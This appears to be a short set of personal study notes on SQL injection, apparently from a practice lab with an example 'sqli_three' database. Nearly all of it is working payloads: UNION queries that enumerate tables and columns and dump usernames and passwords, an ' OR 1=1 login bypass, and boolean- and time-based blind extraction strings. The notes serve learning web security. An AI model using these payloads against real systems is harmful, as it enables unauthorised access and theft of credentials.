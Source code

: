 # Learning SQL Injection

Just taking some notes about different SQL Injections.

#### This will display the tables
```
id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()--
```
#### This will display the columns from the selected table
```
id=0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'--
```
#### This will display the username and password
```
id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users

Ex.
admin:p4ssword
martin:pa$$word
jim:work123
```
#### This will bypass the login form and will return true to the server
```
' OR 1=1;--

Ex.
username: ' OR 1=1;--
password: ' OR 1=1;--
```
# Boolean Based
#### This will guess for the correct database base on the first letter
```
' UNION SELECT 1,2,3 where database() like 'a%';--
' UNION SELECT 1,2,3 where database() like 'h%';--
```
#### This will guess for the correct table in the database
```
' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'h%';--

> The sqli_three is the example database
```
#### This will guess for the correct column in the table and in database
```
' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

> The sqli_three is the example database
> The users is the example table 
```
#### This will guess for the row or data in username column
```
' UNION SELECT 1,2,3 from users where username like 'a%
```
#### This will guess for the row or data in password column
```
' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```
# Time Based
#### This will guess for the correct username and password in users table
```
' UNION SELECT SLEEP(2),2 from users where username like 'ad%in' and password like '49%1';--
```
